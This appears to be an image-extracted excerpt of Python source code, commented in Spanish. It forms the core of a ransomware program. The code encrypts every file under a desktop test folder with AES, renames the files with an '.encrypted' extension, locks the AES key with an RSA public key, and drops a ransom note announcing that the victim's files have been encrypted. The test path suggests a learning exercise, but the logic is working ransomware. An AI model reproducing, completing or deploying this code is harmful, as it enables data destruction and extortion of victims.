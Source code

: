 def cifrar_archivo(archivo, clave):
    iv = os.urandom(16)  # Vector de inicialización
    cipher = AES.new(clave, AES.MODE_CBC, iv)
    
    with open(archivo, "rb") as f:
        datos = f.read()
    datos_cifrados = cipher.encrypt(pad(datos, AES.block_size))
    with open(archivo, "wb") as f:
        f.write(iv + datos_cifrados)  # Guardamos IV + datos cifrados

def cifrar_clave_aes(clave_aes):
    if not os.path.exists("rsa_public.pem"):
        raise FileNotFoundError("El archivo de clave pública RSA 'rsa_public.pem' no se encuentra.")
    
    with open("rsa_public.pem", "rb") as f:
        clave_publica = RSA.import_key(f.read())
    
    cipher_rsa = PKCS1_OAEP.new(clave_publica)
    clave_cifrada = cipher_rsa.encrypt(clave_aes)
    
    with open("aes_key_encrypted.bin", "wb") as f:
        f.write(clave_cifrada)
    
    print("Clave AES cifrada con RSA y guardada en aes_key_encrypted.bin.")

def cifrar_archivos():
    archivos = walk_directory()  # Se asume que solo devuelve archivos, no diccionarios

    if not isinstance(archivos, list):
        print("Error: No se pudo obtener la lista de archivos.")
        return

    clave = cargar_clave_aes()
    directorio_base = os.path.expanduser("~/Desktop/Test")

    for archivo in archivos:
        ruta_completa = os.path.join(directorio_base, archivo)
        if os.path.isfile(ruta_completa):  # Asegura que es un archivo y no un directorio
            # Cifra el archivo
            cifrar_archivo(ruta_completa, clave)
            
            # Cambia la extensión del archivo a '.enc'
            ruta_nueva = ruta_completa + ".encrypted"
            os.rename(ruta_completa, ruta_nueva)
    
    print("Archivos cifrados y renombrados correctamente.")
    cifrar_clave_aes(clave)
    # Generar el reporte de archivos cifrados
    directory_ransom_note = os.path.join(directorio_base, "ransom_note.txt")
    with open(directory_ransom_note, "w") as ransom_note:
            ransom_note.write("Todos tus archivos han sido cifrados\n")
